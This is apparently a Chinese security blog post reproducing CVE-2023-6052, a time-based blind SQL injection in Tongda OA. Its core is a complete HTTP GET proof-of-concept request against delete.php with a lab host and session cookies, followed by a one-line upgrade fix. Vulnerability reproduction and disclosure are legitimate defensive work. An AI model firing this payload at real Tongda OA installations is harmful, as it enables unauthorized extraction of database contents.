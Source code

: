 #  【漏洞复现】通达OA SQL注入漏洞（CVE-2023-6052）   
紫色皓月  皓月的笔记本   2023-11-26 23:00  
  
声明：请勿将文章内的相关技术用于非法目的，如有相关非法行为与文章作者和本公众号无关。请遵守《中华人民共和国网络安全法》。  
  
0X01 简介  
  
通达OA（Office Anywhere网络智能办公系统）是由北京通达信科科技有限公司自主研发的协同办公自动化软件，是与中国企业管理实践相结合形成的综合管理办公平台。  
  
  
  
官网：  
  
https://www.tongda2000.com/  
  
  
漏洞编号：  
  
CVE-2023-6052  
  
  
影响范围：  
  
通达OA >= 2017版  
  
通达OA < 11.10  
  
  
复现环境：  
  
通达OA 2017版  
  
  
0X02   
漏洞复现  
  
漏洞利用需登录。  
  
POC：  
```
GET /general/system/censor_words/module/delete.php?DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1 HTTP/1.1
Host: 192.168.245.134
Cookie: USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=f6098a7b; _csrf=fb9605328bee63ab5b949c268b858d698cf75170a848c7b0882a2b8a14d66f71a%3A2%3A%7Bi%3A0%3Bs%3A5%3A%22_csrf%22%3Bi%3A1%3Bs%3A32%3A%22dJ8hKTNoKf_MTAQdu5ag7otcWNXsBgUm%22%3B%7D; creat_work=new; SID_66=1ca61957; PHPSESSID=jrtih3adqjo2u52mn06q2f03i4
Upgrade-Insecure-Requests: 1

右下角看延时
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPIa14BCsFvSOA7QejLe5ucoUib1jOZ26XrEibAWXlibWiagL2fWGAtzKsjEACmOsibcrCyH198fqyhbBAA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPIa14BCsFvSOA7QejLe5ucotVcajDBDezwpgzaTwiaPWjJUXbNTvkia1jCYOT8ypmiaugj0iaDSic6ZiceA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPIa14BCsFvSOA7QejLe5ucoMHQvV5IwbKYUVGFMdbs9wwdpEbIUdG2ibe5xuxgdqPHq4E0DbNfB9iaw/640?wx_fmt=jpeg&from=appmsg "")  
  
  
  
0X03 修复建议  
  
更新至最新版！  
  
  
0X04 写在最后  
  
  
回复“加群”，获取群号。  
  
侵删！  
  
  
